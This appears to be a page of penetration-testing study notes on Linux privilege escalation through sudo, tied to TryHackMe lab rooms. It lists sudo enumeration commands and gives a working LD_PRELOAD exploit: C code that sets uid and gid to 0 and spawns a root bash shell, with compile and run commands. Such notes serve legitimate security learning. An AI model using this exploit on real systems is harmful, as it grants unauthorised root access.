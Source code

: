 </div></div>

> **NOTE**: don't forget to redirect any errors with `some_command 2> /dev/null`.

<hr class="sep-both">

## Exploit sudo

*A good reference to exploit sudo: [SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)* (1.6k ⭐).

<div class="row row-cols-md-2"><div>

[![picklerick](../../_badges/thm-p/picklerick.svg)](https://tryhackme.com/room/picklerick)
[![linprivesc](../../_badges/thm-p/linprivesc.svg)](https://tryhackme.com/room/linprivesc#task-12)

Try to find commands that can be run with sudo

```bash
$ sudo -nl # test if you can sudo without a password
$ sudo -l # if you can't, try with your password
# -> in both cases, if you were successful
# and there are some interesting stuff such as:
Matching Defaults entries for [...]:
    [...] # vulnerable env variables? (LD_PRELOAD...)

User [...] may run the following commands on [...]:
    (root) /bin/tar # see tar#sudo on GTFOBins
```

It's possible for the administrator to only allow a command/multiple commands to be run as root by a user. This is the case with `tar` above. If you can see `ALL`, then you can run any command as root.
</div><div>

With LD_PRELOAD ([see explanation](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)) and env_keep option set, you can create a root shell by compiling the following code with `gcc -shared -fPIC init.c -o init.so`

```c
void _init() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash
# running this will create a root shell
$ LD_PRELOAD=/tmp/init.so tar
```
